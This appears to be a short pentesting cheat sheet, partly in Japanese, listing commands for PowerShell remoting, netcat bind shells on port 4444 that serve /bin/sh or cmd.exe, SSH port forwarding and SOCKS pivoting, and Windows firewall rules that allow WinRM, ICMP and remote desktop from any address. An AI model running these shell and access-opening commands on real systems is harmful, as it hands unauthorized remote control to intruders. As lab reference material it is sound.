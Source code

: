 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

::: note info
must not `cmd` only
:::

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

remoteを経由してローカルにあるツールをtargetに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

localを経由して外部にあるtargetにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```

### Dynamic portforwarding

local を起点とし、remote にsshdが立っているとする。 このとき下記のように-Dオプションを指定して接続することで、local から見たlocalhost:1080がSOCKS Proxyとなる。 なお、SOCKS Proxyのポート番号はtcp/1080が標準的に用いられる [RFC 1928]。

on user@local

```
ssh -D 1080 user@remote
```

ここで local のブラウザ設定からlocalhost:1080をSOCKS Proxyとして指定すると、ブラウザからのすべてのアクセスが remote を経由したアクセスとなる。

## Windows Firewall Settings

### with pwsh

https://docs.microsoft.com/ja-jp/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security-administration-with-windows-powershell

```pwsh
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
New-NetFirewallRule -Name <名前> -DisplayName <表示名> -Enabled true -Profile <有効にするプロファイル> -Action Allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 10050 -RemotePort Any
New-NetFirewallRule -name 'DPF' -displayname 'DPF' -enable true -profile any -action allow -LocalAddress Any -RemoteAddress Any -Protocol TCP -LocalPort 1080 -RemotePort Any
# OnWorkgroup
Get-NetFirewallRule -Name FPS-ICMP4-ERQ-In | Set-NetFirewallRule -enabled true
Get-NetFirewallRule -Name FPS-ICMP6-ERQ-In | Set-NetFirewallRule -enabled true
# OnDomain
Get-NetFirewallRule -name  FPS-ICMP4-ERQ-In-NoScope | Set-NetFirewallRule -enable true
Get-NetFirewallRule -name  FPS-ICMP6-ERQ-In-NoScope | Set-NetFirewallRule -enable true

Get-NetFirewallRule | ? Name -match "FPS-ICMP.-ERQ-In" | Set-NetFirewallRule -Enabled True
```

### with batch

https://docs.microsoft.com/en-US/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

```batch
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain

netsh advfirewall firewall add rule name="My Application" dir=in action=allow program= "C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=domain
netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes remoteip=157.60.0.1,172.16.0.0/16,LocalSubnet profile=private

netsh advfirewall firewall add rule name= "Open Port 80" dir=in action=allow protocol=TCP localport=80

netsh advfirewall firewall delete rule name= rule name program="C:\MyApp\MyApp.exe"

netsh advfirewall firewall delete rule name= rule name protocol=udp localport=500
  
netsh advfirewall reset
    
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
    
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
    	
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
  
netsh advfirewall firewall add rule name="ICMP Allow incoming V4 echo request" protocol=icmpv4:8,any dir=in action=allow
  
netsh advfirewall firewall add rule name= "All ICMP V4" protocol=icmpv4:any,any dir=in action=allow
  
netsh advfirewall firewall add rule name="Block Type 13 ICMP V4" protocol=icmpv4:13,any dir=in action=block

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
```
